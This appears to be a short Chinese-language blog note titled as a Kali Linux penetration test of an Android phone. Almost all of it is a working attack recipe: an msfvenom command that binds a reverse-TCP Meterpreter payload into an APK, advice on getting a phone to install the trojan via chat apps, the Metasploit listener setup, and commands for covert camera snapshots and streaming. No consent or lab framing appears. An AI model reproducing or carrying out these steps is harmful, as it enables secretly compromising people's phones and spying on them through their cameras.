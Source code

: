 ```yaml
---
title: kali渗透测试android
description: kali渗透测试android
data: 2022-12-18 20:42:00
updata: 2022-12-18 20:42:00
tags: 
  - linux
categories:
  - linux笔记
---
```

#### 环境: kali linux

#### 目标：一台安卓机

ifconfig查看虚拟机ip

在终端输入命令

```c
msfvenom -a java --platform android -p android/meterpreter/reverse_tcp lhost=虚拟机ip lport=监听端口（例：3333） -x test.apk R > apk.apk 
```

在/home/用户名 文件夹中找到apk.apk文件，想办法给手机安装（微信传输会添加拓展名，QQ不会）

在终端输入

```c
msfconsole
```

启动终端，然后一次输入下列

```c
1.use exploit/multi/handler 加载模块
2.set payload android/meterpreter/reverse_tcp  选择Payload
3.show options 查看参数设置
4.set LHOST 虚拟机IP
5.set LPORT 监听端口（此处必须和前面一样）
6.exploit 开始监听
```

如果手机上安装了木马，就会看见一个会话连接

以下是以下操作命令

```c
sysinfo 查看手机操作系统
webcam_list 查看手机摄影头有几个
webcam_snap 隐秘拍照功能
webcam_stream 开启摄像头
```

